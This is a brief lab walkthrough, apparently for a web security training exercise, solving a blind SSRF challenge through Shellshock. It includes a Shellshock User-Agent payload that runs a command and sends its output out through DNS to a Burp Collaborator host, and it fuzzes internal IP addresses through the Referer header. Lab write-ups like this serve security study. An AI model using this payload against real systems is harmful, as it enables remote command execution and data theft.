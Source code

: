 # Blind SSRF with Shellshock exploitation
Solution:
- Download the `Collaborator Everywhere` extension from burp extender
- When browsing the website, we'll get alert that we get collaborator pingback on the Referer and User agent headers
- Change the User agent to shellshock payload
```sh
	() { :; }; /usr/bin/nslookup $(whoami).<random burp collaborator URL>
```
- Now add the internal server IP address `192.168.0.1:8080` to the Referer header. Send this to burp intruder.
- Mark the last octet `§1§` for the FUZZing parameter
- Run intruder from `1` to `255` and we'll get a DNS query from one of these
